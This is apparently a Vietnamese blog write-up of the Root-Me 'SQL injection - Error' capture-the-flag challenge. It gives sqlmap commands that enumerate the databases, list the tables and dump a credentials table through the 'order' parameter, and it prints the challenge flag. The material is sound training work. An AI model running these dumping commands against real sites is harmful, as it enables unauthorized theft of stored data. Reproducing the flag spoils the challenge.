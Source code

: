 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: SQL injection - Error
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - SQL Injection 
---
```


# __SQL injection - Error__

<span>
:octicons-calendar-24: May 03, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Error)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch34/][http://challenge01.root-me.org/web-serveur/ch34/]

  [http://challenge01.root-me.org/web-serveur/ch34/]: http://challenge01.root-me.org/web-serveur/ch34/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy mật khẩu admin

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Challenge này cung cấp cho ta 2 website: 1 cho việc login tài khoản, 1 cho việc xem các bản record (trang Contents)

Sau một số phép kiểm tra, ta thấy được trang này bị lỗi ở HTTP GET METHOD trang Contents

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-error-02.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

### Bước 2: Khai thác website

Rồi, bài này ta dùng sqlmap[^1] thôi ::)
Dùng `python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` để tìm số lượng database truy cập được.

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-error-01.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

Well, database public là thứ ta mong chờ.

Tiếp theo, ta lấy các table trên database public bằng `python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-error-03.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

Ta thấy được table `m3mbr35t4bl3` có vẻ đáng nghi. Tiếp tục ta dump dữ liệu trong table này bằng `python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-error-04.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

Well, gì đây? Password đây rồi :v

???+ question "Chậm lại và suy nghĩ"

    Còn cách khai thác lỗi nào khác ngoại trừ việc dùng sqlmap không?

??? success "Giải quyết chậm lại suy nghĩ"

    Dựa vào thông báo lỗi được xuất ra màn hình với query thử nghiệm ở [hình 1](/rootme/web-server/sql-injection/images/sql-injection-error-02.png#zoom) ta có thể khai thác theo dạng sql blind.

!!! success "__Flag__"
    1a2BdKT5DIx3qxQN3UaC

 [^1] Xem hướng dẫn cài đặt sqlmap tại https://sqlmap.org/